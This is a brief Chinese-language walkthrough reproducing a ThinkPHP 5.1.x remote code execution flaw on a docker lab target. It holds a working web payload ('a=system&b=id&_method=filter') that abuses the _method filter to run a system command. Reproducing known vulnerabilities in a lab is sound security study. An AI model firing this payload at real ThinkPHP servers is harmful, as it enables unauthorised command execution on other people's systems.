 ## Thinkphp5.1.x 远程漏洞执行漏洞复现

### 一、环境准备
使用vsplate(https://www.vsplate.com/new.php) 的docker快速搭建平台，填入github地址（eg. https://github.com/wdan-code/vuln） 即可快速搭建靶机

### 二、工具准备
使用的Hacker(https://github.com/Mr-xn/hackbar2.1.3)浏览器插件

![image](https://user-images.githubusercontent.com/30569668/128801110-dfbdd6b2-fe89-45de-a2ac-308379ee76d2.png)


### 三、复现过程
注：针对于这个版本有点鸡肋，需要index.php文件中跳过报错提示（我的github仓库已修改，直接拉取即可）
语句：error_reporting(0);
Payload：a=system&b=id&_method=filter

![image](https://user-images.githubusercontent.com/30569668/128801826-ef08cf34-b3f7-417a-82e6-0dc96ea6a671.png)

